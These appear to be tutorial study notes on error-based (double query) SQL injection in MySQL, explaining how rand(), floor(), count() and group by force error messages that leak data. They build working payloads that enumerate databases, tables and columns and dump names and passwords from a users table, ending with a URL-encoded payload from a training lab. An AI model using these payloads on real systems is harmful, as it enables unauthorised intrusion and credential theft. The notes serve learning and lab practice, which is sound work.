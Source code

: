 # Error Based (Double Query) SQL Injection

- `A double query` combining two queries into a single query and getting the information through the SQL error message from the database. 

- Union injection can not be used when the web pages fail to retrieve any results (Error, Expected Results) from the database while we inject it with a single query, Then we should use double query SQL injection technique. It is a manual injection technique to dump the data from the database.

[Reference](https://securiumsolutions.com/blog/sql-injection-by-double-query-securiumsolutions/#:~:text=A%20double%20query%20SQL%20injection,error%20message%20from%20the%20database.)


# Mysql Query for Error Based Injection

## 1. `Sub-Query` or `Double Query`

- `A subquery is a SQL query nested inside a larger query.`

- A subquery may occur in :
    - A SELECT clause
    - A FROM clause
    - A WHERE clause
The subquery can be nested inside a SELECT, INSERT, UPDATE, or DELETE statement or inside another subquery.
A subquery is usually added within the WHERE Clause of another SQL SELECT statement.


## 2. `rand()` 

- This function return random decimal number between 0 and 1.

## 3. `floor()`

- The function retrun largest inter value.(Less than or equal to a number)

## 4. `Group by`

- aggregate same values in the coulumn as single value

## 5. `count`

- Count the no. of rows that present in the database




# Theory of Error Based or Double Query Injection


1. Combine two queries into single query 
2. Use SQL_function and make application to show error message
3. dump juicy info through error message



# Example mysql_function to make application error

## 1. count()

`select count(*) from information_schema.tables;`

- display how many row in `information_schema.tables;`

## 2. rand() and floor()

`select rand();`
`select floor(rand()*2);`
`select floor(rand()*2)test;`


## 3. Double Query and Make Application Error

#### Extract Juicy info from error

`select x from y;`

#### Double Query

- `select database();`

- `select concat("::",database(),"::","CONCAT FUNCTION");`

- `select concat("::",database(),"::",floor(rand()*2));`

#### adding variable `a`

- `select concat("::",database(),"::",floor(rand()*2))a from information_schema.columns;`

#### `group by` with a

- `select concat("::",database(),"::",floor(rand()*2))a from information_schema.columns group by a;`


#### use `count()` and making web application to error

`select count(*), concat("::",database(),"::",floor(rand()*2))a from information_schema.columns group by a;`

#### Modified query
`(select 1 from(select count(*), concat("::",database(),"::",floor(rand()*2))a from information_schema.columns group by a)b);`


#### insert this query to `,database(),` area

`(select table_name from information_schema.tables where table_schema=database() limit 0,1)`



# Emurating Database

## Emurating database

`(select 1 from(select count(*), concat("::",database(),"::",floor(rand()*2))a from information_schema.columns group by a)b);`

## Emurating Tables

`(select 1 from(select count(*), concat("::",(select table_name from information_schema.tables where table_schema=database() limit 0,1),"::",floor(rand()*2))a from information_schema.columns group by a)b);`

## Emurating Columns

`(select 1 from(select count(*), concat("::",(select column_name from information_schema.columns where table_schema=database() limit 0,1),"::",floor(rand()*2))a from information_schema.columns group by a)b);`

## Emurating Data

### enumerating username

`(select 1 from(select count(*), concat(concat("::::",(select name from users limit 0,1)),floor(rand()*2))a from information_schema.columns group by a)b);`

### emuerating all data

#### 1. Removing all query within `concat`

`(select 1 from(select count(*), concat((),floor(rand()*2))a from information_schema.columns group by a)b);`

#### 2. Adding another `concat` to insert another query

`(select 1 from(select count(*), concat(concat(),floor(rand()*2))a from information_schema.columns group by a)b);`

#### 3. Adding select statement to dump data

`(select 1 from(select count(*), concat(concat((select name from users limit 0,1)),floor(rand()*2))a from information_schema.columns group by a)b);`



#### 4. Adding anther concat  (`at name area`)to dump all data from users table

`(select 1 from(select count(*), concat(concat("::::",(select concat(name,":::::::",password,":::::",status,":::::",work) from users limit 0,1)),floor(rand()*2))a from information_schema.columns group by a)b);`




## lab Full Query Query (ZD-Lab,SQLI,Lesson-5)

`AND+(select+1+from(select count(*), concat("::",(select table_name from information_schema.tables where table_schema=database() limit 0,1),"::",floor(rand()*2))a from information_schema.columns group by a)b)--+`




























